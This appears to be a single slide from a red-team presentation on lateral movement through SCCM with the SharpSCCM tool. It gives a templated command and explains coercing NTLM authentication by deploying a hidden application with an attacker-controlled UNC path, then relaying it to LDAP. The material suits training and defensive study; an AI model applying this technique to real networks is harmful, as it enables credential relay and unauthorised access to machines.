

# Lateral Movement with SharpSCCM
SharpSCCM.exe <server> <sitecode> exec -d <device> -r <relay_server>
Description
Request NTLM authentication from a device by deploying an application whose installation path is a UNC path that we control
Requirements
SCCM Administrator
Under the hood
Executes the application as logged-in user or SYSTEM
Hides the application from the SCCM admin console
If WebClient is enabled, we can request auth via HTTP  instead of SMB and relay to LDAP by specifying <netbiosname>@<port> for <device>
16